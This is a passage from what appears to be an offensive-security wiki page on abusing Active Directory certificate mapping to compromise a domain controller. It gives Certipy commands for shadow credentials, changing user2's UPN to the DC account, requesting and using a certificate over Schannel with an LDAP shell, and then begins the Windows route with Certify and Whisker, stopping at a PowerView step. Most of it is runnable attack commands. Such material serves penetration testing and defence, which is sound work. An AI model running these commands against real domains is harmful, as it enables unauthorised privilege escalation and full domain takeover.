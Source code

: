 ```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to DC$@domain.local.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "DC\$@$DOMAIN"
```

A certificate permitting client authentication can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -ca 'ca_name' -template 'User'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authentication with the obtained certificate will be performed through Schannel. The `-ldap-shell` option can be used to execute some LDAP requests and, for example, realised an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.

```bash
certipy auth -pfx dc.pfx -dc-ip "$DC_IP" -ldap-shell
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, user1 has `GenericWrite` against user2 and want to compromise the domain controller DC$@domain.local.

First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to DC$@domain.local with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).
